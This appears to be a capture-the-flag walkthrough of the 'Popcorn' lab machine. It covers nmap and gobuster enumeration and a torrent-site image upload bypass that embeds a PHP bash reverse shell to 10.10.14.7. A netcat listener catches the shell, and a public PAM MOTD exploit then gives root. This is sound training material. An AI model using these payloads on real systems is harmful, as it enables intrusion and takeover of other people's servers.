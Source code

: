 ## Popcorn

Difficulty: Medium
Machine IP: 10.10.10.6  

## Scanning

### Nmap Scanning

```bash
$ nmap -sC -sV  -oA nmap/popcorn.nmap 10.10.10.6                                                                                                                                        4 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-28 18:47 EDT
Nmap scan report for 10.10.10.6
Host is up (0.093s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.94 seconds
```

## Enumeration

### gobuster

```bash
$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u  http://10.10.10.6 -t 20 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.6
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/08/28 18:49:16 Starting gobuster
===============================================================
/index (Status: 200)
/test (Status: 200)
/torrent (Status: 301)
/rename (Status: 301)
```

- Torrent page

![torrent_page](images/toorent_page.PNG)

- create an account and upload a torrent file and submit
- then `edit` the screenshot with some random png file and capture the request.
- Noe change it to..
```php
Content-Disposition: form-data; name="file"; filename="feed2.png.php"
Content-Type: image/png

�PNG
�
IHDR�,�1d�IT    pHYs

                    ��~�tEXtSoftwareMacromedia Fireworks 8�h�xtEXtCreation Time06/01/07[� � IDATx���w�%Gy�����&����j�6���J$AX`�@p�����,l��^� �026�p-cc&.?	�+!$���Z�v�9N�9���~�	�}�Ϝ��Y�@��̜��
ou}���]��1f����q0�/U����Ǟ�M��}�?9~\�Г� D�E���Hn�F܁�;�������ڷ\�	�]�������(
c�9Sy�/;�}QP�������`��,E

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/5555 0>&1'");?> 

```
and submit.

- Setup the listenr on kali and open the image by clicking on it.

__Result__

```bash
$ nc -lvnp  5555            
listening on [any] 5555 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.6] 60615
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ python -c 'import pty; pty.spawn("/bin/bash")'
<orrent/upload$ python -c 'import pty; pty.spawn("/bin/bash")'               
www-data@popcorn:/var/www/torrent/upload$ which bash
which bash
/bin/bash
www-data@popcorn:/var/www/torrent/upload$ cd /home 
cd /home
www-data@popcorn:/home$ ls
ls
george
```


## Privilege Escalation

- Found `.cache` folder container a interesting file
```bash
root@popcorn:/home/george/.cache# ls -la
ls -la
total 8
drwxr-xr-x 2 george george 4096 2017-03-17 18:58 .
drwxr-xr-x 3 george george 4096 2020-10-26 19:35 ..
-rw-r--r-- 1 george george    0 2017-03-17 18:58 motd.legal-displayed
```
- On simple `exploit-db` search found two priv esc exploits and found one working

![priv_esc_exploit_db](images/priv_esc_exploit_db.PNG)

- now copy the exploit and run 

```bash
www-data@popcorn:/tmp$ chmod +x exploit.sh
chmod +x exploit.sh
www-data@popcorn:/tmp$ ./exploit.sh
./exploit.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor
```

__Result__
```bash
Password: toor

root@popcorn:/tmp# 	id
id
uid=0(root) gid=0(root) groups=0(root)
```
